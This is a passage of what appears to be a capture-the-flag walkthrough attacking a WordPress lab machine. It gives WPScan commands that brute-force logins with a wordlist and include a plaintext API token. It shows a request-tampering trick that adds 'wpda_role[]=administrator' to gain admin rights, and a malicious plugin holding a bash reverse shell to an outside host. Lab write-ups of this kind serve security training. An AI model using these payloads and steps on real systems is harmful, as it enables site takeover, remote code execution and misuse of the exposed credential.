 Now, run WPScan using this wordlist to test usernames:
```bash
sudo docker run --rm -it --user $(id -u):$(id -g) \
-v /root/Tools/wordlists:/wordlists \
wpscanteam/wpscan --url http://10.10.253.1 --api-token VyjB9rxyQz0cFqLA14dKJ8aLwbZeNEleBazHsRS1J8o \
--usernames /wordlists/usernames.txt
```
or
```bash
sudo docker run --rm -it --user $(id -u):$(id -g) \ -v /root/Tools/wordlists:/wordlists \ wpscanteam/wpscan --url http://10.10.253.1 --api-token VyjB9rxyQz0cFqLA14dKJ8aLwbZeNEleBazHsRS1J8o \ --usernames /wordlists/usernames.txt --passwords /wordlists/rockyou.txt --force
```

WPScan will try to check each username from the wordlist and report if any are valid.

Found password: soccer

Gain Admin Access:

Use Burp Suite to intercept and modify the profile.php request. Add the &wpda_role[]=administrator parameter and forward the request to gain admin privileges.

Enable Burb on the browser
Capture packer from update profile:
```bash
_wpnonce=b432c8444e&_wp_http_referer=%2Fwordpress%2Fwp-admin%2Fprofile.php%3Fupdated%3D1&from=profile&checkuser_id=2&color-nonce=aad8983489&admin_color=fresh&admin_bar_front=1&first_name=bob&last_name=bob&nickname=bob&display_name=bob+bob&email=bob%40localhost.com&url=&description=&pass1=&pass2=&action=update&user_id=2&submit=Update+Profile
```

add:
```bash
&wpda_role[]=administrator
```

and hit forward on Burb

we will be logged as admin


### 3. Reverse Shell

Create and Upload a Malicious Plugin

Create a plugin directory and PHP file:
```bash
mkdir breakme
vim breakme/breakme.php
```

Add the reverse shell payload:
```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.147.84/1234 0>&1'");
?>
```
